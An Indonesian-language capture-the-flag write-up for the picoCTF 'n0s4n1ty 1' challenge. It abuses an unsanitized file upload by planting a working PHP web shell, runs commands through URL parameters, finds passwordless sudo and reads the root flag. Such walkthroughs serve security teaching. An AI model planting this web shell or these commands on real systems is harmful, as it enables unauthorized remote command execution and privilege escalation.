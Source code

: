 # n0s4n1ty 1

Pengembang telah menambahkan fungsionalitas unggahan gambar profil ke situs web. Namun, implementasinya cacat, dan menghadirkan peluang bagi Anda. Misi Anda, jika Anda memilih untuk menerimanya, adalah menavigasi ke halaman web yang disediakan dan menemukan area unggahan file. Tujuan utama Anda adalah menemukan bendera tersembunyi yang terletak di direktori.

### Petunjuk

1. Unggah file tidak disanitasi
2. Setiap kali Anda mendapatkan shell di mesin jarak jauh, periksa

```bash
sudo -l
```

## Documentation

1. Pertama -tama pergi ke instance dan Anda akan melihat kerentanan unggahan file. Jadi, skrip semacam apa pun dapat diunggah

![App Screenshot](/images/5.png)

2. Lalu saya membuat shell php ini dan diunggah ke server:

```bash
  <?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>
```

File utama dapat diakses [disini](/NOSANITY/n0s4n1ty-1.php).

3. Maka perintah apa pun dapat dieksekusi dengan memicu jalur:
   Endpoint: uploads/shell.php?cmd=

```bash
http://standard-pizzas.picoctf.net:63914/uploads/n0s4n1ty-1.php?cmd=
```

- Mari kita periksa pengguna saat ini:

```bash
http://standard-pizzas.picoctf.net:63914/uploads/n0s4n1ty-1.php?cmd=whoami
```

- Sekarang mari kita lihat hak istimewa untuk pengguna saat ini:

```bash
http://standard-pizzas.picoctf.net:63914/uploads/n0s4n1ty-1.php?cmd=sudo -l
```

- Setelah mengeksekusi peerintah diatas, maka akan muncul seperti ini

```bash
Matching Defaults entries for www-data on challenge:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```

```bash
(ALL) NOPASSWD: ALL
```

- Jadi, tidak ada kata sandi yang diperlukan untuk mengakses pengguna dan root mana pun.

- Sekarang mari kita dapatkan flag sebagai pengguna root:

```bash
http://standard-pizzas.picoctf.net:63914/uploads/n0s4n1ty-1.php?cmd=sudo cat /root/flag.txt
```

- Setelah perintah diatas dijalankan maka kita akan dapat menemukan flag-nya.
